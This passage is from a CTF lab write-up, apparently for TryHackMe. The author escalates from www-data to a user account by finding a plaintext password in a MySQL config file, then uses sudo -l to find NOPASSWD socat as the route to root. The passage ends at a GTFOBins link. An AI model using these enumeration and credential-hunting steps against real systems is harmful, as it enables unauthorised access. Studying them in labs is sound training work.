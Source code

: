 ## Escalate to Elyana
After I stabilized the shell, I started to look for ways to elevate my privileges because the user www-data is usually limited on what it can do on a Linux box. Looking at the `/home/` folder, there is a folder for elyana. It contains a flag file that we can't read, and a hint file. I decided to ignore the hint for now. To only read it if I coudn't find a way to the elyana user. 

I looked around the web site, tried `sudo -l` and look around a little, but did not see anything at first glance. 

I then looked for files that elyana might have left on the system. 

```bash
find / -user elyana 2>/dev/null 
/home/elyana
...
/etc/mysql/conf.d/private.txt

cat /etc/mysql/conf.d/private.txt
user: elyana
password: Password
```

I use the password to run `su elyana` and I was now connected as elyana. 

```bash
bash-4.4$ su elyana 
Password: 

bash-4.4$ whoami
elyana

bash-4.4$ cat /home/elyana/user.txt
base64 Flag

bash-4.4$ cat /home/elyana/user.txt | base64 -d
THM{The User Flag}
```

## Escalate to root

The last step is to get the root flag. I looked if elyana could run sudo. And they where allowed to run socat as anyone. 

```bash
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```

I looked at GTFOBins and [socat can be used to elevate privileges](https://gtfobins.github.io/gtfobins/socat/#sudo). 

